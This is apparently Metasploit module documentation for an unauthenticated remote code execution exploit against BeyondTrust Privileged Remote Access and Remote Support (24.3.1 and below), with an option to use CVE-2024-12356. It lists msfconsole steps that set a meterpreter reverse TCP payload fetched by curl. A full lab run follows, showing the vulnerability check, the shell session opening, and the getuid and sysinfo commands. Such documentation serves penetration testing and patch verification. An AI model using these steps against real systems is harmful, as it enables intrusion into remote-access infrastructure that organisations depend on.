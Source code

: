 ## Vulnerable Application
This exploit achieves unauthenticated remote code execution against BeyondTrust Privileged Remote
Access (PRA) and Remote Support (RS), with the privileges of the site user of the targeted BeyondTrust
product site. This exploit targets PRA and RS versions `24.3.1` and below.

## Testing
This exploit was tested against a vulnerable BeyondTrust Remote Support target running version `24.1.2`. To install
a virtual appliance, follow [this documentation](https://docs.beyondtrust.com/rs/docs/va-install). You will first need
to acquire the relevant software packages.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/beyondtrust_rce_cve_2024_12356.`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### TargetCompanyName
If set, use this name value to identify the company name of the deployed site (e.g. `mytestcompany`).
By default, this is auto discovered.

### TargetServerFQDN
If set, use this FQDN value to identify the FQDN of the deployed site (e.g. `support.mytestcompany.com`).
By default, this is auto discovered.

### LeverageCVE_2024_12356
By default, this exploit does not leverage the argument injection vulnerability CVE-2024-12356. Enabling this
option will cause this exploit to leverage CVE-2024-12356.

## Scenarios

### Default

```
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > show options 

Module options (exploit/linux/http/beyondtrust_rce_cve_2024_12356):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.105   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                       html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      usKuEPuSzgnx     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > check
[*] 192.168.86.105:443 - The target appears to be vulnerable. Detected version 24.1.2
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > exploit
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 24.1.2
[*] Using company name: mytestcompany
[*] Sending stage (3045380 bytes) to 192.168.86.105
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.105:10104) at 2025-01-31 10:51:38 +0000

meterpreter > getuid
Server username: mytestcompany
meterpreter > sysinfo
Computer     : 192.168.86.105
OS           : Gentoo 2.14 (Linux 6.1.76-bt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

